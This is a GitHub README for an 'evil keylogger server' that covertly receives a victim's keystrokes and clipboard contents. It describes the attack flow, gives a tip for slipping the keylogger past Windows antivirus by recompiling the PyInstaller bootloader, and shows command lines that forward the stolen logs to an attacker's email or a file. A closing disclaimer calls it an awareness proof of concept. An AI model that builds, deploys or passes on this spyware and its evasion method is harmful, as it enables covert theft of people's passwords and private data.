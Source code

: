 <div align="center">

![272844130-8c3b2b16-ae6d-467b-82a3-0e8c0b89c46a-removebg-preview](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/312b2d20-ecb1-42b9-9d54-2382833a7735)

<img src="https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/8f263795-f5f4-418f-a918-d4dea0c992cd" height=275 align=left>
<img src="https://img.shields.io/badge/Language%20-Python3-green.svg">
<img src="https://img.shields.io/badge/Tool%20-Keylogger, Covert Channel-blue.svg">
<img src="https://img.shields.io/badge/Type%20-Script-violet.svg"">
<img src="https://img.shields.io/badge/OS%20-Windows, Linux-red.svg"">
<img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square">
</div>

# Evil keylogger server (Covert Channel)

* ***Feel free to modify it as you see fit and it can be improved in many ways to suit your needs.***

This project focuses on a malicious server that remotely receives keyboard logs and data saved on the victim's clipboard, emulating an illegal covert channel between the victim and the attacker. When the victim runs the keylogger, the first thing it will do is connect to the attacker's remote server and send the logs in real time.

#

It has been carefully designed to present the keyboard logs in the most user-friendly way possible.

****(Remember to add your local or proxy IP address in the keylogger script)****

### Evading the antivirus (Windows 10/11):
Simple technique: Compile the PyInstaller bootloader locally using Microsoft C/C++ compiler and then use pyinstaller to compile the keylogger code.

# Optionals 

#### Send the keyboard logs to the attacker's e-mail address

`./app.py 192.168.32.34 -e smtp.gmail.com`

![Peek 12-01-2024 00-33](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/6d4b9199-5b1a-41ac-a82c-cf6d8b7bcd31)

#### Write the keystroke logs to a file

`./app.py 192.168.18.20 -f keylogs.txt`

![Peek 12-01-2024 00-34](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/b4470ef2-1f89-4823-b7d2-aa012f3a698c)

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It primarily serves as a proof of concept and is intended to raise awareness about cybersecurity
